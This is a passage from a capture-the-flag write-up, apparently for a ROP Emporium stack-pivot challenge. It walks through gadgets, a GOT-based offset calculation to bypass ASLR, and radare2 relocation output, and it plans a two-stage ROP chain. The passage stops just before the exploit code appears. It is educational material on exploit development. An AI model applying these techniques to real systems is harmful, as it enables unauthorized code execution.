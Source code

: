* Firstly let's use `0x0000000000400b00: pop rax; ret;` 
* Then we can use the second place to enter the address of the buffer.
* Lastly swap values with `0x0000000000400b02: xchg rax, rsp; ret;` 

Easy right? 

But what will we do after that? Firstly, one thing to consider is how we can get the address of `ret2win` function if we do not now it's address because of ASLR. Luckily, we can calculate the offset from the `foothold_function` and then, during second stage just add the calculated value.

Coming back to functions from the shared object, let's check these addresses. 

```python
>>> hex(0x00000abe - 0x00000970)
'0x14e'
```

And here we have our offset. What we'll need is also the address of the `foothold_function` in `plt` entry and in `got` entry. First one, we can get from the `afl` command used earlier today, which is `0x00400850`. For `got` entry, we can just use `ir` command from `radare2` to view informationa about relocations. 

```text
[0x004008a0]> ir
[Relocations]
vaddr=0x00601ff8 paddr=0x00001ff8 type=SET_64 __gmon_start__
vaddr=0x00602080 paddr=0x00602080 type=SET_64
vaddr=0x00602090 paddr=0x00602090 type=SET_64
vaddr=0x006020a0 paddr=0x006020a0 type=SET_64
vaddr=0x00602018 paddr=0x00002018 type=SET_64 free
vaddr=0x00602020 paddr=0x00002020 type=SET_64 puts
vaddr=0x00602028 paddr=0x00002028 type=SET_64 printf
vaddr=0x00602030 paddr=0x00002030 type=SET_64 memset
vaddr=0x00602038 paddr=0x00002038 type=SET_64 __libc_start_main
vaddr=0x00602040 paddr=0x00002040 type=SET_64 fgets
vaddr=0x00602048 paddr=0x00002048 type=SET_64 foothold_function
vaddr=0x00602050 paddr=0x00002050 type=SET_64 malloc
vaddr=0x00602058 paddr=0x00002058 type=SET_64 setvbuf
vaddr=0x00602060 paddr=0x00002060 type=SET_64 exit

14 relocations
```

And here we can see the address of `0x00602048`. Now let's start crafting our attack scenario of the second stage. 

* Firstly, let's call the `foothold_function` to populate the .got.plt entry.
* After that pop the value of `foothold_function`'s `got` entry into the register `rax`.
* After that, we can move the the value from the address `rax` into `rax`. 
* Now in `rax` we should have the contents of `got` entry for `foothold_function`. 
* Add the offset to the `rax` register to get our `ret2win` function.
* Call it.

After all these steps, we should have a working exploit. All of these step are compatible with the gadgets that are present in the binary. And in the end, here is my exploit.
